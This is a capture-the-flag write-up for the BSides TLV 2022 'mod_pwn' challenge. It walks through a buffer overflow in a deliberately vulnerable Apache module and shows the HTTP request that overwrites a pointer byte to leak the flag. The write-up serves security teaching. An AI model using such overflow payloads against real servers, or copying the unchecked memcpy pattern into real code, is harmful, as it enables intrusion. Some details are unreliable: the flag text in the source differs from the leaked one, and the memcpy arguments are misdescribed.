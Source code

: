 # BSides TLV CTF 2022 -
[https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)  
Pwn, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)

Attached file [mod_pwn.tar.gz](./mod_pwn.tar.gz)

## mod_pwn Solution

By extracting the tar.gz file we can the following files:  
```console  
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/pwn/mod_pwn]  
└──╼ $ tree  
.  
├── Dockerfile  
├── httpd.conf  
├── Makefile  
├── mod_pwnable.c  
├── mod_pwnable.so  
└── mod_pwn.tar.gz

0 directories, 6 files  
```

By observing the source code we can see the flag on the static variables:  
```c  
...  
#define ERR_NAME_TOO_LONG -1  
#define MAX_NAME_SIZE 128  
const char flag[] =
"BSidesTLV2022{n4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}}";  
const char footer[] = "\n<hr /> can u pwn me?\n\n";  
...  
```

We can see also the following function:  
```c  
static int pwnable_handler(request_rec *r)  
{  
   /* Init welcome object */  
   welcome_msg_obj welcome_msg;  
   memset(&welcome_msg, NULL, sizeof(welcome_msg));  
   welcome_msg.suffix = &footer;  
   strcpy(welcome_msg.color, "blue");

   /* Set the appropriate content type */  
   ap_set_content_type(r, "text/html");  
  
   /* Verify HTTP request method */  
   if (strcmp(r->method, "GET") == OK) {  
       ap_rputs("<h1>BSidesTLV 2022 Apache module!</h1>   
", r);  
       if (r->args) {  
           fetch_name_param(r, &welcome_msg.name);  
           ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n  
\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);  
       }  
       else {  
            ap_rprintf(r, "<form>\n");  
            ap_rprintf(r, "Enter your name: <input type='text' name='name'> -> <input type='submit' />\n");  
            ap_rprintf(r, "</form>\n");  
       }  
   }  
   return OK;  
}  
```

As we can see, ```welcome_msg.suffix``` get the address of ```footer``` which
locate on the memory near the flag.

Next, We can see [Buffer Overflow](https://ctf101.org/binary-
exploitation/buffer-overflow/) on ```fetch_name_param``` function:  
```c  
static void fetch_name_param(request_rec *r, char *out) {  
   char *name = &r->args[5]; // skipping the "?name=" prefix  
   if(strlen(name) > sizeof(welcome_msg_obj)) {  
       char *msg = apr_palloc(r->pool, MAX_NAME_SIZE); // CTF Note: The way `apr_palloc` works should NOT be a concern when trying to solve this challenge. Treat it as if it was a traditional `malloc` call.  
       sprintf(msg, "Error, name too long: %.16s...", name);  
       raise_error(ERR_NAME_TOO_LONG, out, msg);   
   } else {  
       memcpy(out, name, strlen(name));  
   }  
   ap_unescape_urlencoded(out);  
}  
```

The function doesn't check the length of ```name``` before calling to
```memcpy``` function.

```memcpy``` get three params, ```out``` which is ```welcome_msg.name``` which
is the source, ```name``` which is the user input as dest, and the length of
```name```.

```welcome_msg_obj``` struct is:  
```c  
typedef struct _welcome_msg_obj {  
   char name[MAX_NAME_SIZE];  
   char *suffix;  
   char color[32];  
} welcome_msg_obj;  
```

We can see that ``name``` locate before ```suffix``` on the memory, Meaning
that we can overwrite the ```suffix``` variable.

Because ```suffix``` locate close to the ```flag``` on the memory we can
overwrite the last byte of ```suffix``` to make ```suffix``` point to the
```flag``` variable.

We can imagine this like that in the memory:  
```  
...  
&flag   0x006b7b3c  
&footer 0x006b7b78  
...  
```

Because we can overwrite ```suffix``` variable (which point to the address of
```footer```) we can make ```suffix``` to point on the flag.

```suffix``` varbile is print to the page on  ```pwnable_handler``` function:

```c  
static int pwnable_handler(request_rec *r)  
{  
   ...  
           ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n  
\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);  
       }  
   ...  
   return OK;  
}  
```

So we just need to send ```128``` bytes to fill ```name``` array and then we
need to send another byte to overwrite the last byte of ```suffix``` to get
the flag.

Because we don't know what is the flag size we need to do a type of brute
force.

After a few guessing, we found the character ```+``` is the offset between
```suffix``` to ```flag```.

We can get the flag by sending the following HTTP request:  
```HTTP  
GET
/ctf?name=yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy+
HTTP/2  
Host: mod-pwn.ctf.bsidestlv.com  
Cookie: bsidestlv-ctf-
session=5fb7eed40a3353355d5070baf624f3df|6249ddd6c7fc469ba9a96304f8d57c7b  
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"  
Sec-Ch-Ua-Mobile: ?0  
Sec-Ch-Ua-Platform: "Windows"  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36  
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-
exchange;v=b3;q=0.9  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: navigate  
Sec-Fetch-User: ?1  
Sec-Fetch-Dest: document  
Referer: https://mod-pwn.ctf.bsidestlv.com/ctf  
Accept-Encoding: gzip, deflate  
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7

```

Response:  
```  
HTTP/2 200 OK  
Date: Sat, 02 Jul 2022 22:19:55 GMT  
Content-Type: text/html  
Content-Length: 280  
Set-Cookie: bsidestlv-ctf-
session=ed0838bcfaa56e3df80f9b6edceb7d6d|6249ddd6c7fc469ba9a96304f8d57c7b;
Max-Age=360; Path=/; Secure; HttpOnly  
Strict-Transport-Security: max-age=15724800; includeSubDomains

<h1>BSidesTLV 2022 Apache module!</h1>  
Welcome, <font
color='blue'>yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy
a?o  
</font>  
  
  
BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}  
```

And we get the flag
```BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}```.

Original writeup
(https://github.com/evyatar9/Writeups/tree/master/CTFs/2022-BSidesTLV/Pwn/200-mod_pwn).